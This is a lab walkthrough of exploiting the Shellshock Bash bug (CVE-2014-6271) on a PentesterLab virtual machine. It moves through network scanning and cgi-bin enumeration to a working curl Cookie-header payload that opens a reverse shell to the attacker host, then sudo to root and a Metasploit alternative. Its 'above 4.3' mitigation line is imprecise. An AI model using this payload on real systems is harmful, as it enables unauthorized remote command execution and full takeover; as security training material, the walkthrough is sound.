# CVE-2014-6271-Shellshock-Vulnerability
[Shellshock](https://www.breachlock.com/resources/blog/shellshock-bash-remote-code-execution-vulnerability-explained/) is a security bug in the Bash shell (GNU Bash up to version 4.3) that causes Bash to execute unintentional bash commands from environment variables. Threat actors exploiting the vulnerability can issue commands remotely on the target host. While Bash is not inherently Internet-facing, many internal and external services such as web servers do use environment variables to communicate with the server’s operating system. 

GNU Bash (up-to) v4.3 processes trailing strings after function definitions in the values of environment variables, which allows remote attackers to execute arbitrary code via a crafted environment. It allows remote code execution using shell callouts to bash. Payload can be sent simply using curl in http headers. CGI-BIN is a directory in the apache web server which allows us to execute 
shellscripts.

The environment variables are not properly sanitized by Bash prior to execution, allowing an attacker to send commands to the server through HTTP requests and have the web server operating system execute them. The vulnerability was discovered by Stephane Chazelas and was given the identifier, [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/cve-2014-6271)

**Mitigation:** Use bash version above 4.3

---
**Step 1: Identify the target**
```
sudo netdiscover -r 10.0.2.0/24
```



**Our Target IP is 10.0.2.8**

---
**Step 2: Enumerate the target**
```
nmap -sV -sC 10.0.2.8
```


We can see SSH is open, running OpenSSH 6.0 as well as port 80 running Apache httpd 2.2.21. We can
disregard the title header for now since we are pretending to not know this machine is susceptible to
Shellshock.

---

**Step 3: Enumerating the HTTP service**


Navigating to the website, we can see we are greeted with a static page. There are no options or links to other pages which we can visit.



By inspecting the page source, we can see there is a function called status() and it is calling /cgi-
bin/status. This is interesting as we have further evidence that there is a script inside the cgi bin directory.

---

**Step 4: Doing a directory search on the website using dirb**
```
dirb http://10.0.2.8
```
In the scan, we are looking for the cgi-bin directory in specific. We already know it exists, but for
demonstration purposes, we will still carry on with the search.



**NOTE: If you see a cgi-bin directory but it does not show what is inside that directory, we can run a
separate command on that directory to look for scripts**
```
dirb http://10.0.2.8/cgi-bin -w /usr/share/wordlists/dirb/common.txt -X py
```
```
dirb http://10.0.2.8/cgi-bin -w /usr/share/wordlists/dirb/common.txt -X .sh
```
From the scan results, we can see there is a file present at http://10.0.2.8/cgi-bin/status

We can run a curl command on the file to see the contents of the file.
```
curl http://10.0.2.8/cgi-bin/status
```


---

**Step 5: Exploitation**

First, we need to start a listener on our attacking machine.
```
nc -lvnp 4444
```


Secondly, we will send our payload using a http header using curl
```
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.0.2.15/4444 0>&1' http://10.0.2.8/cgi-bin/status
```


After sending over the http header along with our payload. We can expect to see a reverse shell access.



---

**Step 6: Privilege Escalation**

We use the sudo -l command to see which commands the current user ‘pentesterlab’ can run on the
system as sudo.
```
sudo -l
```


Since, the user have permission to run all commands. We can just spawn a root shell on the system.
```
sudo /bin/bash
```


---

**Another way to exploit the shellshock vulnerability: Using Metasploit**

We can use the multi/http/apache_mod_cgi_bash_env_exec Metasploit module to launch out exploit



**Commands:**

- use multi/http/apache_mod_cgi_bash_env_exec
- set rhost 10.0.2.
- set targeturi http://10.0.2.8/cgi-bin/status
- run



We can also use the [shocker.py](https://github.com/nccgroup/shocker) method to exploit the shellshock vulnerability.


    